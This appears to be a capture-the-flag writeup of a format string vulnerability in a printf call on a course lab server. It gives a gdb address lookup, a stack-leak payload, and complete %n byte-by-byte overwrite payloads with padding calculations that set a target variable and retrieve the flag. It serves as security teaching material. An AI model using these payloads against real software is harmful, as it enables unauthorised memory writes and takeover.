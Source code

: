 # Challenge `Write Big Number` writeup

- Vulnerability:
  - _Endpoint has a **format string** vulnerability_
- Where:
  - _`printf` endpoint_
- Impact:
  - _Allows to **read and write the stack values and arbitrary registers** without having the authority to by using the (vulnerable) printf function in the server's code_

## Steps to reproduce

First we need to open a session in the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22195`. After the session is established we can now start plotting what to do.

By analysing the source code provided, we can see that there is a buffer being used to store the input of the user. The buffer has a size of 128, and afterwards, in the function `vuln`, is printed. We can see that the `printf` function is being used to print the buffer, and it has a format string vulnerability. 

This means that we can send `%08x.` characters to print the stack values. We need to see where in the stack our buffer is and update the targets value to something different. To check the **target address** we used the gdb debugger with the corresponding **binary** file. To get it, we made a breakpoint in **vuln** and used the following command:

```bash
gdb-peda$ p &target
$1 = (unsigned int *) 0x804a044 <target>
```

Since we now have the address of the target we now need to know where in the stack the buffer starts. To do this we used the following payload:

```python
msg = (b"AAAA" + b"%08x."*20)
```

We obained: 
```bash
AAAAffffdc7c.0000007f.ffffdcd8.f7ffda74.00000001.f7fd3490.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.
Oops, not quite! Target was: 00000000
```

Because we used the string `AAAA` as a reference, we can see that the buffer starts in the 7th place. Having this information, we can now try to overwrite the target value. This time around, we need to make the target have this value: **0x0f5f1aa9**. In order to do this, the chosen method was byte by byte. First we got to overwrite every byte using this as the message payload:

```python
msg = (
        b"\x44\xa0\x04\x08" + 
        b"\x45\xa0\x04\x08" +
        b"\x46\xa0\x04\x08" +
        b"\x47\xa0\x04\x08" +
        b"%7$n"+
        b"%8$n"+
        b"%9$n"+
        b"%10$n"
       )
```
We successfully overwrote the target value to **10101010**. This means we now just have to make padding adjustments to get the desired value. The following calculations were made:

```
a9 - 10 = 153
11a - a9 = 113 (we need to overflow it)
5f - 1a = 69
10f -5f = 176 (we need to overflow it)
```

Since we have the paddings adjustments, we can now make the final payload:

```python
msg = (
        b"\x44\xa0\x04\x08" + 
        b"\x45\xa0\x04\x08" +
        b"\x46\xa0\x04\x08" +
        b"\x47\xa0\x04\x08" +
        b"%153x%7$n"+
        b"%113x%8$n"+
        b"%69x%9$n"+
        b"%176x%10$n"
       )

r.sendline(msg)

print(f"Flag: {r.recvall()}")

r.close()
```

Now, we can see that the server returned the `flag`. This means that we have successfully exploited the vulnerability and achieved our objective.

## Script

The script used can be found [here](write_big_number_poc.py)